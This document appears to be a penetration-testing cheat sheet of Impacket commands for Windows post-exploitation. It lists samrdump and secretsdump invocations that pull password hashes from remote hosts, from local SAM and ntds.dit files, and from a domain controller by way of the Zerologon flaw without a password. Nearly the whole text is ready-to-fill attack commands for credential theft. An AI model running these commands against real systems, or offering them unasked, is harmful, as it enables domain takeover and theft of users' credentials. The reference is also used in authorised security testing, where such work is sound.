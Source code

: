 # Impacket

% impacket, windows, smb, 445

## samrdump - system account, shares, etc... (dump info from the Security Account Manager (SAM))
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
samrdump.py <domain>/<user>:<password>@<ip>
```

## secretsdump
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
SecretsDump '<domain>/<user>:<password>'@<ip>
```

## secretsdump local dump - extract hash from sam database
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
SecretsDump  -system <SYSTEM_FILE|SYSTEM> -sam <SAM_FILE|SAM> LOCAL
```

## secretsdump local dump - extract hash from ntds.dit
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
SecretsDump  -ntds <ntds_file.dit> -system <SYSTEM_FILE> -hashes <lmhash:nthash> LOCAL -outputfile <ntlm-extract-file>
```

## secretsdump - anonymous get administrator 
zerologon
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
SecretsDump <domain>/<dc_bios_name>\$/@<ip> -no-pass -just-dc-user "Administrator"
```

## secretsdump - remote extract
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
SecretsDump -just-dc-ntlm -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<ip>
```

## secretsdump - remote extract + users infos
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
SecretsDump -just-dc -pwd-last-set -user-status -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<ip>
```


